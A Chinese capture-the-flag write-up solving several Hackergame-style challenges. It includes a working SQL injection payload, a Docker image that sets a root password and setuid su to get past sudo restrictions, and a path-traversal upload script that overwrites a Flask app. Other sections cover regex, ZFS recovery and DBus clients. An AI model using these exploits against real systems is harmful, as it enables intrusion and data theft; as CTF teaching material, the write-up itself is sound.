




# Sparkcyf Writeup

>本writeup也会发布在我的博客上： https://blog.sparktour.me/

## PaoluGPT

观察代码注意到了可能可以进行SQL注入：
``` python
def generate_search_payload():
    # 构造搜索所有包含flag记录的payload 
    # 使用group_concat将多条记录合并,用换行符分隔
    payload = "' UNION SELECT 'Flags', group_concat(id || ' | ' || title || ' | ' || contents, char(10)) "
    payload += "FROM messages WHERE contents LIKE '%flag%' OR title LIKE '%flag%' -- "
    
    # URL编码
    encoded_payload = urllib.parse.quote(payload)
    
    # 构造完整URL
    url = f"/view?conversation_id={encoded_payload}"
    
    return url
```

得到了一个如下的query：
```
/view?conversation_id=%27%20UNION%20SELECT%20%27Flags%27%2C%20group_concat%28id%20%7C%7C%20%27%20%7C%20%27%20%7C%7C%20title%20%7C%7C%20%27%20%7C%20%27%20%7C%7C%20contents%2C%20char%2810%29%29%20FROM%20messages%20WHERE%20contents%20LIKE%20%27%25flag%25%27%20OR%20title%20LIKE%20%27%25flag%25%27%20--%20
```

在浏览器里粘贴进去得到的网页里搜索flag就能找到两个小题的flag了。

## 强大的正则表达式

### mod16

参考wikipedia的整除规则，做了一个匹配（只匹配了1，2，4，考虑到随机到四位数以下的概率很小）：

| 千位数是偶数时，末三位能被16整除。        | 25万4176：千位数4是偶数，末三位176，能被16整除。          |
| ----------------------------------------- | --------------------------------------------------------- |
| 千位数是奇数时，末三位加8能被16整除。     | 3408：千位数3是奇数，末三位408＋8＝416，能被16整除。      |
| 末两位与其余位乘4相加，其结果能被16整除。 | 176：1×4＋76＝80，1168：11×4＋68＝112，两者都能被16整除。 |
| 末四位能被16整除。                        | 15万7648：末四位7648能被16整除。                          |



最后会得到一个很长的regex（因为穷举了10000以内可以被16整除的数）

```
(0|1|2|3|4|5|6|7|8|9)*((0|2|4|6|8)(000|016|032|048|064|080|096|112|128|144|160|176|192|208|224|240|256|272|288|304|320|336|352|368|384|400|416|432|448|464|480|496|512|528|544|560|576|592|608|624|640|656|672|688|704|720|736|752|768|784|800|816|832|848|864|880|896|912|928|944|960|976|992)|(1|3|5|7|9)(008|024|040|056|072|088|104|120|136|152|168|184|200|216|232|248|264|280|296|312|328|344|360|376|392|408|424|440|456|472|488|504|520|536|552|568|584|600|616|632|648|664|680|696|712|728|744|760|776|792|808|824|840|856|872|888|904|920|936|952|968|984)|0000|0016|0032|0048|0064|0080|0096|0112|0128|0144|0160|0176|0192|0208|0224|0240|0256|0272|0288|0304|0320|0336|0352|0368|0384|0400|0416|0432|0448|0464|0480|0496|0512|0528|0544|0560|0576|0592|0608|0624|0640|0656|0672|0688|0704|0720|0736|0752|0768|0784|0800|0816|0832|0848|0864|0880|0896|0912|0928|0944|0960|0976|0992|1008|1024|1040|1056|1072|1088|1104|1120|1136|1152|1168|1184|1200|1216|1232|1248|1264|1280|1296|1312|1328|1344|1360|1376|1392|1408|1424|1440|1456|1472|1488|1504|1520|1536|1552|1568|1584|1600|1616|1632|1648|1664|1680|1696|1712|1728|1744|1760|1776|1792|1808|1824|1840|1856|1872|1888|1904|1920|1936|1952|1968|1984|2000|2016|2032|2048|2064|2080|2096|2112|2128|2144|2160|2176|2192|2208|2224|2240|2256|2272|2288|2304|2320|2336|2352|2368|2384|2400|2416|2432|2448|2464|2480|2496|2512|2528|2544|2560|2576|2592|2608|2624|2640|2656|2672|2688|2704|2720|2736|2752|2768|2784|2800|2816|2832|2848|2864|2880|2896|2912|2928|2944|2960|2976|2992|3008|3024|3040|3056|3072|3088|3104|3120|3136|3152|3168|3184|3200|3216|3232|3248|3264|3280|3296|3312|3328|3344|3360|3376|3392|3408|3424|3440|3456|3472|3488|3504|3520|3536|3552|3568|3584|3600|3616|3632|3648|3664|3680|3696|3712|3728|3744|3760|3776|3792|3808|3824|3840|3856|3872|3888|3904|3920|3936|3952|3968|3984|4000|4016|4032|4048|4064|4080|4096|4112|4128|4144|4160|4176|4192|4208|4224|4240|4256|4272|4288|4304|4320|4336|4352|4368|4384|4400|4416|4432|4448|4464|4480|4496|4512|4528|4544|4560|4576|4592|4608|4624|4640|4656|4672|4688|4704|4720|4736|4752|4768|4784|4800|4816|4832|4848|4864|4880|4896|4912|4928|4944|4960|4976|4992|5008|5024|5040|5056|5072|5088|5104|5120|5136|5152|5168|5184|5200|5216|5232|5248|5264|5280|5296|5312|5328|5344|5360|5376|5392|5408|5424|5440|5456|5472|5488|5504|5520|5536|5552|5568|5584|5600|5616|5632|5648|5664|5680|5696|5712|5728|5744|5760|5776|5792|5808|5824|5840|5856|5872|5888|5904|5920|5936|5952|5968|5984|6000|6016|6032|6048|6064|6080|6096|6112|6128|6144|6160|6176|6192|6208|6224|6240|6256|6272|6288|6304|6320|6336|6352|6368|6384|6400|6416|6432|6448|6464|6480|6496|6512|6528|6544|6560|6576|6592|6608|6624|6640|6656|6672|6688|6704|6720|6736|6752|6768|6784|6800|6816|6832|6848|6864|6880|6896|6912|6928|6944|6960|6976|6992|7008|7024|7040|7056|7072|7088|7104|7120|7136|7152|7168|7184|7200|7216|7232|7248|7264|7280|7296|7312|7328|7344|7360|7376|7392|7408|7424|7440|7456|7472|7488|7504|7520|7536|7552|7568|7584|7600|7616|7632|7648|7664|7680|7696|7712|7728|7744|7760|7776|7792|7808|7824|7840|7856|7872|7888|7904|7920|7936|7952|7968|7984|8000|8016|8032|8048|8064|8080|8096|8112|8128|8144|8160|8176|8192|8208|8224|8240|8256|8272|8288|8304|8320|8336|8352|8368|8384|8400|8416|8432|8448|8464|8480|8496|8512|8528|8544|8560|8576|8592|8608|8624|8640|8656|8672|8688|8704|8720|8736|8752|8768|8784|8800|8816|8832|8848|8864|8880|8896|8912|8928|8944|8960|8976|8992|9008|9024|9040|9056|9072|9088|9104|9120|9136|9152|9168|9184|9200|9216|9232|9248|9264|9280|9296|9312|9328|9344|9360|9376|9392|9408|9424|9440|9456|9472|9488|9504|9520|9536|9552|9568|9584|9600|9616|9632|9648|9664|9680|9696|9712|9728|9744|9760|9776|9792|9808|9824|9840|9856|9872|9888|9904|9920|9936|9952|9968|9984)
```

### mod13

在Stack Exchange上找到了这个[答案](https://codegolf.stackexchange.com/questions/3503/hard-code-golf-regex-for-divisibility-by-7/3580#3580)，并且微调了一下，把生成的正则里的`(0+)?`换成了`0*`以满足题目的要求。

```javascript
function gen(b, base) {
    var states = nfa(b, base)
    for (var i = 0; i < states.length; i++)
        states = reduce(states, i);
    return states[0][0] != 'phi' && new RegExp('^' + wrap(states[0][0]) + '$');
}

function test(reg, base) {
    if (!base)
        base = 10;

    var x = [];
    for (var i = 0; i < 100; i++)
        x.push(i);
    return x.map(function (a) {return a.toString(base)}).filter(reg.test.bind(reg)).map(function (a) {return parseInt(a, base)})
}

function nfa(b, base) {
    if (!base)
        base = 10;

    var states = [];
    for (var i = 0; i < b; i++) {
        states[i] = [];
        for (var j = 0; j < b; j++)
            states[i][j] = [];
    }

    for (var i = 0; i < b; i++)
        for (var n = 0; n < base; n++)
            states[i][(i * base + n) % b].push(n.toString());

    for (var i = 0; i < b; i++)
        for (var j = 0; j < b; j++)
            states[i][j] = states[i][j].length > 1 ? '[' + states[i][j].join('') + ']' : (states[i][j][0] || 'phi');
    return states;
}

// http://www.cs.umbc.edu/~squire/cs451_l7.html
function reduce(states, n) {
    var s = states.length;
    var reduced = [];
    for (var i = 0; i < s; i++) {
        reduced[i] = [];
        for (var j = 0; j < s; j++) {
            // reduced[i][j] = wrap(states[i][n] + wrap(states[n][n]) + '*' + states[n][j] + '|' + states[i][j]);
            reduced[i][j] = '';

            if (states[i][n] == 'phi' || states[n][j] == 'phi') {
                reduced[i][j] = states[i][j];
                continue;
            }

            if (states[i][n] != states[n][n])
                reduced[i][j] += wrap(states[i][n]);

            if (states[n][n] != 'phi') {
                reduced[i][j] += wrap(states[n][n]);

                if (states[i][n] == states[n][n] && states[n][j] == states[n][n])
                    reduced[i][j] += wrap(states[n][n]);

                if (states[i][n] == states[n][n] || states[n][j] == states[n][n])
                    reduced[i][j] += '+';
                else
                    reduced[i][j] += '*';
            }

            if (states[n][j] != states[n][n])
                reduced[i][j] += wrap(states[n][j]);

            reduced[i][j] = states[i][j] == 'phi' ? wrap(reduced[i][j]) : alternate(reduced[i][j], states[i][j]);
        }
    }
    return reduced;
}

function matching(x, open, close) {
    // Test if the parens are actually matching
    if ('(['.indexOf(x.charAt(open)) != -1 && ')]'.indexOf(x.charAt(close)) != -1) {
        var count = 0;
        for (var i = open; i <= close; i++) {
            if ('(['.indexOf(x.charAt(i)) != -1)
                count++;
            else if (')]'.indexOf(x.charAt(i)) != -1) {
                count--;

                if (count == 0)
                    return i == close;
            }
        }
    }

    return false;
}

function wrap(x) {
    if (x.length < 2 || matching(x, 0, x.length - 1))
        return x;
    return '(' + x + ')';
}

function optional(cond) {
    if (matching(cond, 0, cond.length - 2)) {
        var op = cond.charAt(cond.length - 1);
        if (op == '+')
            return cond.slice(0, -1) + '*';
        else if (op == '*' || op == '?')
            return cond;
    } else if (matching(cond, 0, cond.length - 1))
        return optional(cond.slice(1, -1));

    return wrap(cond) + '?';
}

function alternate(cond1, cond2) {
    cond2 = wrap(cond2);
    var index = cond1.indexOf(cond2);
    var len = cond2.length;
    var cond = '';

    if (index == 0) {
        var op = cond1.charAt(len);
        if (op == '*')
            cond = cond2 + '+' + optional(cond1.slice(len));
        else if (op == '+')
            cond = cond1;
        else 
            cond = cond2 + optional(cond1.slice(len));
    } else if (index == cond1.length - len)
        cond = optional(cond1.slice(0, index)) + cond2;
    else if (cond1.length == 1 && cond2.length == 1)
        cond = '[' + cond1 + cond2 + ']';
    else
        cond = cond1 + '|' + cond2;

    return wrap(cond);
}
regex = gen(13, 2)
//regex (0+)? with 0*
regex = regex.toString().replace(/\(0\+\)/g, '0*')
//remove head /^ and tail $/ before use
console.log(regex)
```


```
flag{pow3rful_r3gular_expressi0n_medium_b696342189}
```

## 无法获得的秘密

vm只能用novnc访问，并且不能拖文件，也不能共享剪贴板，读取信息也只能通过屏幕，写入信息只能通过键盘输入和鼠标。首先我们可以思考一下如何利用vm里已有的软件。经过观察，除了常见的命令行软件，这个机器里有python，也有浏览器（意味着至少能运行python和javascript代码）。

笔者在几周前正好看到过一位开发者开发过一个名为[qrs](https://github.com/qifi-dev/qrs)的「网页传输数据」的包。这个包通过把文件编码进二维码，然后用喷泉码的方式把二维码显示在屏幕上来让屏幕另一边的「客户端」收取信息。笔者随即尝试把qrs的网页编译出来，去掉了图片（减小体积），压缩后base64。

```shell
GZIP=-9  tar -czvf public.tar.gz public
base64 -i public.tar.gz > public_b64.txt
```


```
156K Nov  2 20:33 public.tar.gz
209K Nov  2 20:33 public_b64.txt
```

这时这个base64后的文件大概有209k（大概20多万个字符），如果拿键盘宏输入的话每秒的输入速度大概要到300多个字符，这是正常的键盘宏做不到的。

随后笔者注意到我可以直接往`noVNC_keyboardinput`里写入数据再发送，在保证novnc不卡死的情况下，大概每次能发送1万个字符（两次发送之间最好隔10秒左右，让缓冲区里的输入能够完全执行），因此在llm的辅助下写了以下的传输js（粘贴进浏览器的console即可使用）

```javascript
async function appendToFile(text, chunkSize = 10000, pauseDuration = 10000) {
    const input = document.getElementById('noVNC_keyboardinput');
    if (!input) {
        console.error("找不到键盘输入元素");
        return;
    }
    
    // 计算总块数
    const totalChunks = Math.ceil(text.length / chunkSize);
    console.log(`总共需要发送 ${totalChunks} 块数据，每块 ${chunkSize} 字符`);
    
    // 创建进度显示元素
    const progressDiv = document.createElement('div');
    progressDiv.style.cssText = `
        position: fixed;
        top: 10px;
        right: 10px;
        background: rgba(0, 0, 0, 0.8);
        color: white;
        padding: 10px;
        border-radius: 5px;
        font-family: monospace;
        z-index: 9999;
    `;
    document.body.appendChild(progressDiv);
    
    // 分块处理
    for (let i = 0; i < text.length; i += chunkSize) {
        const chunk = text.slice(i, i + chunkSize);
        const currentChunk = Math.floor(i / chunkSize) + 1;
        
        // 更新进度显示
        const progress = ((i + chunk.length) / text.length * 100).toFixed(2);
        progressDiv.innerHTML = `
            进度: ${progress}%<br>
            当前块: ${currentChunk}/${totalChunks}<br>
            已传输: ${i + chunk.length} / ${text.length} 字符`;
        
        // 构造echo命令
        // 使用-n参数避免换行符，使用单引号避免特殊字符问题
        const escapedChunk = chunk.replace(/'/g, "'\\''");
        const command = `echo -n '${escapedChunk}' >> 1.txt\n`;
        
        // 发送命令
        input.focus();
        input.value = command;
        input.dispatchEvent(new Event('input', {
            bubbles: true,
            cancelable: true,
        }));
        
        // 清空输入框
        await new Promise(resolve => setTimeout(() => {
            input.value = '';
            resolve();
        }, 100));
        
        // 如果不是最后一块，则暂停
        if (i + chunkSize < text.length) {
            // 显示倒计时
            const startTime = Date.now();
            const countDown = setInterval(() => {
                const remainingTime = Math.ceil((pauseDuration - (Date.now() - startTime)) / 1000);
                if (remainingTime > 0) {
                    progressDiv.innerHTML = `
                        进度: ${progress}%<br>
                        当前块: ${currentChunk}/${totalChunks}<br>
                        已传输: ${i + chunk.length} / ${text.length} 字符<br>
                        等待下一块: ${remainingTime}秒`;
                }
            }, 1000);
            
            await new Promise(resolve => setTimeout(() => {
                clearInterval(countDown);
                resolve();
            }, pauseDuration));
        }
    }
    
    // 完成后显示验证命令
    const verifyCommand = "wc -c 1.txt\n";
    input.focus();
    input.value = verifyCommand;
    input.dispatchEvent(new Event('input', {
        bubbles: true,
        cancelable: true,
    }));
    
    // 也显示原始长度，方便比对
    console.log(`原始字符串长度: ${text.length}`);
    
    // 等待3秒后移除进度显示
    await new Promise(resolve => setTimeout(resolve, 3000));
    progressDiv.remove();
}

// 使用方法：
// 0. 首先清空或创建文件：
//    echo -n > 1.txt
// 1. 然后开始传输：
//    appendToFile(你的base64字符串);
```



把网页传输进去之后，解码base64，解压出网页之后用python开个http服务器host网页即可：

```shell
base64 -d 1.txt > public.tar.gz
tar -xvf public.tar.gz
cd public
python -m http.server 8000
```

打开网页启动二维码显示后，拿一个手机读大概2-3分钟就可以拿到数据了：






## Docker for Everyone Plus

### No Enough Privilege


```
NOPASSWD: /usr/bin/docker run --rm -u 1000\:1000 *, 
        /usr/bin/docker image load, 
        !/usr/bin/docker * -u0*, 
        !/usr/bin/docker * -u?0*,
        !/usr/bin/docker * --user?0*, 
        !/usr/bin/docker * -ur*, 
        !/usr/bin/docker * -u?r*, 
        !/usr/bin/docker * --user?r*,
```

在网上找到了[这篇文章](https://www.mendelowski.com/til/2024/07/no-new-privileges-docker)，作者提到了可以让docker里的用户用su提权到root，就可以干和`docker run --rm`之后一样的事情了。因此，我们制作一个简单的image：

```dockerfile
FROM busybox:latest


# Create a new user
RUN adduser -D -u 1000 user && \
    # Set root password
    echo "root:root" | chpasswd && \
    # Make sure su has correct permissions
    chmod u+s /bin/su

# Switch to the new user
USER user
WORKDIR /home/user

CMD ["/bin/sh"]
```

用rz传到题目环境里运行即可。

```shell
dockerv:/tmp$ sudo docker run --rm -u 1000:1000 -v /flag:/flag -v /dev:/dev --pr
ivileged --pid=host --cap-add=SYS_ADMIN reader_busybox1 whoami
user
dockerv:/tmp$ sudo docker run --rm -u 1000:1000  -it -v /flag:/flag -v /dev:/dev
 --privileged --pid=host --cap-add=SYS_ADMIN reader_busybox1
~ $ su root
Password:
/home/user # cat /flag
flag{dONT_1OAD_uNTRusT3D_1ma6e_253cb5a83d_plz!}
```

## ZFS 文件恢复

### Text File

挂上盘之后可以先用`zdb -vvv hg2024`看一下盘的log，可以注意到创建zfs的人是用的`zpool create -o ashift=9 -O atime=off -O compression=gzip -O redundant_metadata=none -O xattr=off hg2024 /dev/loop0`创建的zpool，并且在删掉文件之前给盘打了一个快照`hg2024/data@mysnap`（`2024-10-23.21:37:22 ioctl snapshot`），之后参考这个[issue](https://github.com/openzfs/zfs/discussions/13326#discussioncomment-2695088)，用`zfs send -R hg2024/data@mysnap | zstream dump -d > zdump.txt`，在zdump.txt里看能找到flag1。

```
6c 75 61 69  78 6d 70 72  70 67 68 61  71 6a 66 6c   luai xmpr pgha qjfl
    checksum = 2388d63a19/37aec6ae4719/393e10dd9e0ed3/2c106546000e7e31
WRITE object = 2 type = 19 checksum type = 2 compression type = 0 flags = 0 offset = 4096 logical_size = 4096 compressed_size = 0 payload_size = 4096 props = 0 salt = 0000000000000000 iv = 000000000000000000000000 mac = 00000000000000000000000000000000
61 67 7b 70  31 41 49 6e  4e 4e 6d 6d  6e 6e 6d 6d   ag{p 1AIn NNmm nnmm
6e 74 45 78  78 74 5f 35  30 65 61 73  79 7e 72 31   ntEx xt_5 0eas y~r1
67 68 74 3f  7e 7d 0a 00  00 00 00 00  00 00 00 00   ght? ~}.. .... ....
```

`flag{p1AInNNmmnnmmntExxt_50easy~r1ght?~}`

### Shell Script

用`dd if=/dev/loop0 bs=1M | strings -n 8`提取整个盘的可读数据，可以发现这个脚本：

```bash
#!/bin/sh
flag_key="hg2024_$(stat -c %X.%Y flag1.txt)_$(stat -c %X.%Y "$0")_zfs"
echo "46c518b175651d440771836987a4e7404f84b20a43cc18993ffba7a37106f508  -" > /tmp/sha256sum.txt
printf "%s" "$flag_key" | sha256sum --check /tmp/sha256sum.txt || exit 1
printf "flag{snapshot_%s}\n" "$(printf "%s" "$flag_key" | sha1sum | head -c 32)"
```

那目标就是找flag1文件的atime和mtime。我们再回去翻一下`zdb -vvv hg2024`的结果（大概在输出的1470行左右），可以看到object2和object3都比较可疑：

```
    Object  lvl   iblk   dblk  dsize  dnsize  lsize   %full  type
         2    2   128K     4K  3.50K     512     8K  100.00  ZFS plain file
                                               176   bonus  System attributes
	dnode flags: USED_BYTES USERUSED_ACCOUNTED USEROBJUSED_ACCOUNTED 
	dnode maxblkid: 1
	uid     0
	gid     0
	atime	Thu Mar  9 23:56:50 2006
	mtime	Sun May 29 03:49:29 1977
	ctime	Wed Oct 23 21:37:22 2024
	crtime	Wed Oct 23 21:37:22 2024
	gen	10
	mode	100644
	size	4135
	parent	34
	links	0
	pflags	840800000004

    Object  lvl   iblk   dblk  dsize  dnsize  lsize   %full  type
         3    1   128K    512    512     512    512  100.00  ZFS plain file
                                               176   bonus  System attributes
	dnode flags: USED_BYTES USERUSED_ACCOUNTED USEROBJUSED_ACCOUNTED 
	dnode maxblkid: 0
	uid     0
	gid     0
	atime	Mon Nov 10 04:49:03 2036
	mtime	Sat Jan 12 01:18:00 2013
	ctime	Wed Oct 23 21:37:22 2024
	crtime	Wed Oct 23 21:37:22 2024
	gen	11
	mode	100755
	size	331
	parent	34
	links	0
	pflags	840800000104
```

我们试一下他们两的atime和mtime，结果发现就是对的flag2。flag_key是`hg2024_1141919810.233696969_2109876543.1357924680_zfs`（~~第一个文件的atime似乎有些恶趣味~~）

`flag{snapshot_6db0f20dd59a448d314cb9cabe8daea9}`  

### P.S

笔者一开始就只在看zdb的结果，结果先把第二道题做出来了（可能是因为flag1被gzip压缩了，明文里看不出来，但生成flag2的脚本没有被压缩），随后尝试了通过类似`zdb -dddddd -N hg2024 2`找出数据位置，然后用`zdb -R hg2024 0:20e00:a00:dv`等命令尝试去解码数据，但都一直都无法正确恢复数据（估计是因为不清楚压缩文件头的位置，所以zdb -R无法确认压缩的格式）。

```
zdb -ddddddddd -N hg2024 2
Dataset mos [META], ID 0, cr_txg 4, 94.5K, 56 objects, rootbp DVA[0]=<0:b200:200> DVA[1]=<0:100b200:200> DVA[2]=<0:200c000:200> [L0 DMU objset] fletcher4 lz4 unencrypted LE contiguous unique triple size=1000L/200P birth=33L/33P fill=56 cksum=00000008eabfc621:000003ab22c39a45:0000c4a29aa8ceb5:001bf0cf206542e2

    Object  lvl   iblk   dblk  dsize  dnsize  lsize   %full  type
         2    1    16K   128K     3K     512   128K  100.00  SPA space map (K=inherit) (Z=inherit=on)
                                               320   bonus  SPA space map header
 dnode flags: USED_BYTES 
 dnode maxblkid: 0
Indirect blocks:
               0 L0 0:1c00:400 0:1001c00:400 0:2003400:400 20000L/400P F=1 B=29/29 cksum=000000892a449fd1:00003e8c652d74ab:00106e148054423c:0339284d35914fc7

  segment [0000000000000000, 0000000000020000) size  128K
```

#### 参考

- https://serverfault.com/questions/378567/zfs-is-there-a-way-to-find-out-where-the-blocks-for-a-file-are-stored#1143030
- https://openzfs.github.io/openzfs-docs/man/master/8/zdb.8.html#R
- https://github.com/openzfs/zfs/discussions/13326#discussioncomment-2695088

## 禁止内卷

这道题的关键是服务器的后端使用了`flask run --reload --host 0`命令运行，并开启了`--reload`选项，那如果有文件换掉了`app.py`那flask会马上应用新的脚本。观察评测的脚本，发现脚本直接把提交的文件存到了`/tmp/uploads"`里：

```python
file = request.files['file'] 
filename = file.filename 
filepath = os.path.join(UPLOAD_DIR, filename) 
file.save(filepath)
```

解决方案就是把上传的文件名改成软链接，这样上传的文件会直接覆盖掉`/tmp/web/app.py`，上传的文件就随意些写一个读取并返回`answer.json`的route即可。

```python
import os
import requests
import json

def create_and_upload_file():
    # # 1. 创建一个看似正常的JSON文件
    # payload = [0] * 50000  # 创建50000个0的数组
    # filename = "payload.json"
    
    # # 将payload写入文件
    # with open(filename, 'w') as f:
    #     json.dump(payload, f)
    
    filename = "exp_ans.py"

    # 2. 上传文件
    url = "https://chal02-selrm3q9.hack-challenge.lug.ustc.edu.cn:8443/submit"
    
    # 设置特殊的文件名，尝试创建软链接
    files = {
        'file': ('../../tmp/web/app.py', open(filename, 'rb'), 'application/json')
    }
    
    # 发送请求
    response = requests.post(url, files=files)
    print(f"Status Code: {response.status_code}")
    print(f"Response: {response.text}")
    
    # # 3. 清理临时文件
    # os.remove(filename)

if __name__ == "__main__":
    create_and_upload_file()
```

exp_ans.py:

```python
from flask import Flask, jsonify
import json

app = Flask(__name__)

@app.route('/', methods=['GET'])
def index():
    try:
        with open('answers.json', 'r') as f:
            answers = json.load(f)
            return jsonify({"answers": answers})
    except Exception as e:
        return jsonify({"error": str(e)})

if __name__ == '__main__':
    app.run()
```

解码数据：

```python
def decode_flag(numbers):
    # 将每个数字加65然后转换为ASCII字符
    flag = ''
    for num in numbers:
        char = chr(num + 65)
        flag += char
    
    return flag

# 从响应中获取的数字
numbers = [37,43,32,38,58,52,45,46,-32,-32,-32,-32,30,36,50,49,36,53,36,49,30,45,46,54,30,20,30,49,52,45,30,12,24,30,34,-17,35,36,35,34,37,-8,33,32,-9,37,-15,37,60,11,25,73,78,25,46,78,45,68,55,60,96,44,13,53,62,80,14,88,70,33,8,33,41,94,35,8,99,51,90,49,14,38,3,13,40,91,57,28,99,51,27,42,41,56,71,85,45,1,39,42,92,2,25,62,6,13,35,64,71,13,98,66,30,90,12,73,70,56,92,71,43,81,75,84,9,10,61,10,9,16,47,32,60,76,73,66,76,93,44,38,38,25,8,38,31,17,15,19,65,33,32,14,66,21,46,30,62,18,19,74,14,77,62,66,40,44,80,71,53,39,22,100,90,71,79,17,65,32,70,43,83,45,63,40,53,68,6,89,36,45,27,28,68,53,30,56,54,96,35,61,44,90,11,63,29,87,60,22,50,97,98,2,70,10,0,82,50,64,12,87,8,50,69,44,58,1,96,20,93,92,83,14,67,44,19,49,86,82,54,65,67,68,24,39,75,18,97,22,49,69,24,36,71,13,9,12,69,11,55,2,89,7,30,43,80,92,28,3,78,1,11,6,6,72,94,17,92,57,26,10,14,91,44,9,18,22,81,42,28,8,73,28,66,80,41,15,77,77,90,84,8,1,66,99,39,27,3,83,36,8,1,11,23,64,90,69,64,94,15,6,29,1,52,45,89,88,80,95,44,33,34,5,17,65,15,63,11,54,71,83,49,71,100,74,97,45,56,79,28,31,94,77,92,29,46,70,87,8,69,64,42,42,52,96,84,43,82,11,45,16,77,3,1,15,19,74,34,100,4,95,25,17,20,29,57,62,12,47,96,46,17,69,9,47,4,57,39,65,39,30,12,17,22,44,24,59,84,35,73,66,56,92,61,73,77,10,78,85,66,13,14,28,41,80,68,7,44,34,20,23,67,81,91,62,25,67,67,78,72,29,42,10,15,68,95,55,57,63,49,82,44,8,62,90,4,49,87,5,57,23,88,39,25,56,7,55,74,99,74,48,83,29,84,65,29,15,10,76,4,79,56,6,80,70,48,48,15,93,41,55,49,50,0,47,35,84,96,77,89,87]

# 解码并打印flag
flag = decode_flag(numbers)
print(f"Flag: {flag}")

# Flag: flag{uno!!!!_esrever_now_U_run_MY_c0dedcf9ba8f2f}LZ...
```


## 不太分布式的软总线

值得一提的是这道题是完全由LLM写的，没有任何人工干预，且LLM写出来的WP却是完全正确的。

<details>
  <summary>LLM（Claude）写的答案，未经任何修改</summary>

### What DBus Gonna Do?

让我分析一下这道CTF题目。从代码中可以看出，这是一个基于DBus的系统服务，提供了三个获取flag的方法。我们先关注第一个flag。

从flagserver.c的代码中可以看到获取flag1的方法是`GetFlag1`，它需要一个字符串参数，且该参数必须严格等于"Please give me flag1"。

我们可以编写一个简单的C程序来调用这个DBus方法：

```c
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag1"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main() {
    GError *error = NULL;
    GDBusConnection *connection;
    GVariant *result;

    // Connect to the system bus
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (!connection) {
        g_printerr("Failed to connect to the system bus: %s\n", error->message);
        g_error_free(error);
        return EXIT_FAILURE;
    }

    // Call the D-Bus method with the required string
    result = g_dbus_connection_call_sync(
        connection,
        DEST,        // destination
        OBJECT_PATH, // object path
        INTERFACE,   // interface name
        METHOD,      // method
        g_variant_new("(s)", "Please give me flag1"), // parameters
        G_VARIANT_TYPE("(s)"),  // expected return type
        G_DBUS_CALL_FLAGS_NONE,
        -1,  // timeout (use default)
        NULL,
        &error
    );

    if (result) {
        const gchar *response;
        g_variant_get(result, "(&s)", &response);
        g_print("%s\n", response);
        g_variant_unref(result);
    } else {
        g_printerr("Error calling D-Bus method: %s\n", error->message);
        g_error_free(error);
    }

    g_object_unref(connection);
    return EXIT_SUCCESS;
}

```

使用方法：

1. 首先将这个程序编译:
```bash
gcc getflag1.c `pkg-config --cflags --libs gio-2.0` -o getflag1
```

2. 然后将编译好的程序转换成base64:
```bash
base64 getflag1 --wrap=0
```

3. 将base64编码后的内容提交给服务器

这个程序会：
1. 连接到DBus系统总线
2. 调用FlagService的GetFlag1方法
3. 传入指定的字符串"Please give me flag1"
4. 打印返回的flag内容

程序模仿了getflag3.c的结构，但做了必要的修改以适应GetFlag1方法的要求。主要的区别是：
1. 添加了正确的参数 `"Please give me flag1"`
2. 指定了正确的返回类型 `G_VARIANT_TYPE("(s)")`
3. 正确处理并打印返回的字符串

这应该能成功获取到第一个flag。需要注意的是，题目使用了Docker环境，所以我们需要按照指定的方式提交程序。

要继续获取flag2和flag3吗？

```
flag{every_11nuxdeskT0pU5er_uSeDBUS_bUtn0NeknOwh0w_c7afe80dbf}
```

### If I Could Be A File Descriptor

好的，让我们来分析获取flag2的方法。

从flagserver.c的代码中可以看到，GetFlag2方法需要：
1. 一个文件描述符(fd)作为参数
2. 从这个fd读取的内容必须严格等于"Please give me flag2\n"
3. 这个fd不能指向文件系统上的文件（通过检查/proc/self/fd/{fd}的符号链接实现）

由于不能使用普通文件，我们可以使用pipe或memfd来实现。我选择使用memfd，因为它更现代且更适合这种场景。

```c
#define _GNU_SOURCE
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>
#include <fcntl.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag2"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main() {
    GError *error = NULL;
    GDBusConnection *connection;
    GVariant *result;

    // Create memfd
    int memfd = memfd_create("flag2_request", 0);
    if (memfd == -1) {
        perror("memfd_create failed");
        return EXIT_FAILURE;
    }

    // Write the required message
    const char *msg = "Please give me flag2\n";
    if (write(memfd, msg, strlen(msg)) != strlen(msg)) {
        perror("write failed");
        close(memfd);
        return EXIT_FAILURE;
    }

    // Reset file position to beginning
    if (lseek(memfd, 0, SEEK_SET) == -1) {
        perror("lseek failed");
        close(memfd);
        return EXIT_FAILURE;
    }

    // Connect to the system bus
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (!connection) {
        g_printerr("Failed to connect to the system bus: %s\n", error->message);
        g_error_free(error);
        close(memfd);
        return EXIT_FAILURE;
    }

    // Create GUnixFDList and add our fd
    GUnixFDList *fd_list = g_unix_fd_list_new();
    gint fd_index = g_unix_fd_list_append(fd_list, memfd, &error);
    if (fd_index == -1) {
        g_printerr("Failed to append fd: %s\n", error->message);
        g_error_free(error);
        g_object_unref(connection);
        close(memfd);
        return EXIT_FAILURE;
    }

    // Call the D-Bus method
    result = g_dbus_connection_call_with_unix_fd_list_sync(
        connection,
        DEST,        // destination
        OBJECT_PATH, // object path
        INTERFACE,   // interface name
        METHOD,      // method
        g_variant_new("(h)", fd_index), // parameters
        G_VARIANT_TYPE("(s)"),  // expected return type
        G_DBUS_CALL_FLAGS_NONE,
        -1,  // timeout (use default)
        fd_list,  // fd_list
        NULL,    // out_fd_list
        NULL,
        &error
    );

    if (result) {
        const gchar *response;
        g_variant_get(result, "(&s)", &response);
        g_print("%s\n", response);
        g_variant_unref(result);
    } else {
        g_printerr("Error calling D-Bus method: %s\n", error->message);
        g_error_free(error);
    }

    g_object_unref(fd_list);
    g_object_unref(connection);
    close(memfd);
    return EXIT_SUCCESS;
}

```

使用方法：

1. 编译程序:
```bash
gcc getflag2.c `pkg-config --cflags --libs gio-2.0` -o getflag2
```

2. 将编译好的程序转换成base64:
```bash
base64 getflag2 --wrap=0
```

